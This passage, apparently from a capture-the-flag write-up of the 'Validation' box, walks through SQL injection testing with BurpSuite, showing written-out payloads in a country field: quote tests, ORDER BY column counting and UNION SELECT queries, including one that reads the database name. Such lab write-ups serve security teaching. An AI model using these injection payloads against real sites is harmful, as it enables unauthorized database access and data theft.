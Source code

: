 I use the `BurpSuite` proxy and capture the traffic that is being sent to the server, I send the data packet that interests me to the **Repeater** and try several injections, some work but others do not show me the expected result, there is something strange in the operation of this box.

<br/><br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_07.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

```sql
username=admin'&country=Brazil           # :(
username=admin&country=Brazil'           # :)
```

<br/><br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_08.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

```sql
username=admin&country=Brazil'-- -
username=admin&country=Brazil'order by 100-- -
username=admin&country=Brazil'order by 10-- -
username=admin&country=Brazil'order by 1-- -
```

<br/><br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_09.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

```sql
username=admin&country=Brazil' union select 1-- -
```

<br/><br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_10.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

But if I perform the injection and use the **browser** instead of `BurpSuite` to see if it shows me the expected output, I find what I need.

```sql
username=admin&country=Brazil'-- -
```

<br/><br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_11.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

```sql
username=admin&country=Brazil' union select database()-- -
```
